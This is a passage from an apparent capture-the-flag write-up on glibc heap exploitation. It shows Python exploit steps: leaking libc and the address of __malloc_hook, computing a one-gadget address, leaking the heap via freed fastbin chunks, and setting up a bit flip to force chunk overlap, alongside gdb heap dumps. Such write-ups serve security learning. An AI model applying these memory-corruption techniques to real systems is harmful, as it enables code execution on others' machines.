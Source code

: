 ```python
alloc(0x88, 0)

libc    = libcLeak() - 0x3c4b78
mhook   = libc + 0x3c4b10
oneshot = libc + 0xf1117
log.success("Libc:          0x{:x}".format(libc))
log.success("__malloc_hook: 0x{:x}".format(mhook))
```

Off to the heap leak now. Thanks to `add` once again, we can get a heap leak this time by free-ing two fast chunks.

```python
# We can get a heap leak by free-ing two fast chunks
free(1)
free(2)
```

```
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x555555757200 --> 0x555555757190 --> 0x0
(0x80)     fastbin[6]: 0x0
				  top: 0x555555757300 (size : 0x20d00) 
       last_remainder: 0x0 (size : 0x0) 
			unsortbin: 0x0

0x555555757190:	0x0000000000000090	0x0000000000000071 <-- chunk 1
0x5555557571a0:	0x0000000000000000	0x0000000000000000
0x5555557571b0:	0x0000000000000000	0x0000000000000000
0x5555557571c0:	0x0000000000000000	0x0000000000000000
0x5555557571d0:	0x0000000000000000	0x0000000000000000
0x5555557571e0:	0x0000000000000000	0x0000000000000000
0x5555557571f0:	0x0000000000000000	0x0000000000000000
0x555555757200:	0x0000000000000000	0x0000000000000071 <-- chunk 2
0x555555757210:	0x0000555555757190	0x0000000000000000
```


```python
alloc(0x68, 2)
heap   = heapLeak() & 0xFFFFFFFFFFFFF000
target = heap + 0x278
log.success("Heap:          0x{:x}".format(heap))
```

Now it's time to create the setup so that we can trigger a consolidation which will result in a chunk overlap.

```python
edit(2, p64(0)*12 + p64(0x170))
	
free(0)

# Flip the bit and fool the chunk that its
# previous chunk is free'd so that we can overlap
flip(str(target))
```
